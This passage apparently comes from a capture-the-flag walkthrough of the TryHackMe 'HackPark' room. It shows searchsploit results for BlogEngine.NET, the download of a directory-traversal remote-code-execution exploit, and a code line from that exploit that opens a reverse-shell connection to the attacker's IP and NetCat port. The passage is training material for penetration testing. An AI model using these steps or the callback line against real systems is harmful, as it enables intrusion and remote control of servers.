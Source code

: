 ```text
kali@kali:~/thm/hackpark$ searchsploit blogengine
------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                            |  Path
------------------------------------------------------------------------------------------ ---------------------------------
BlogEngine 3.3 - 'syndication.axd' XML External Entity Injection                          | xml/webapps/48422.txt
BlogEngine 3.3 - XML External Entity Injection                                            | windows/webapps/46106.txt
BlogEngine 3.3.8 - 'Content' Stored XSS                                                   | aspx/webapps/48999.txt
BlogEngine.NET 1.4 - 'search.aspx' Cross-Site Scripting                                   | asp/webapps/32874.txt
BlogEngine.NET 1.6 - Directory Traversal / Information Disclosure                         | asp/webapps/35168.txt
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                        | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution        | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                   | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution   | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                | aspx/webapps/47014.py
------------------------------------------------------------------------------------------ ---------------------------------
```

We have what looks to be a possible RCE exploit for our version of BlogEngine:

```text
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                        | aspx/webapps/46353.cs
```

Let's download it and have a look:

```text
kali@kali:~/thm/hackpark$ searchsploit -m aspx/webapps/46353.cs
  Exploit: BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution
      URL: https://www.exploit-db.com/exploits/46353
     Path: /usr/share/exploitdb/exploits/aspx/webapps/46353.cs
File Type: HTML document, ASCII text, with CRLF line terminators
Copied to: /home/kali/46353.cs  
```

Reading the exploit it looks to be fairly simple. We just need to edit this line and put our attack machine IP and port we will have NetCat listening on:

```text
using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.10.10.20", 4445)) {
```
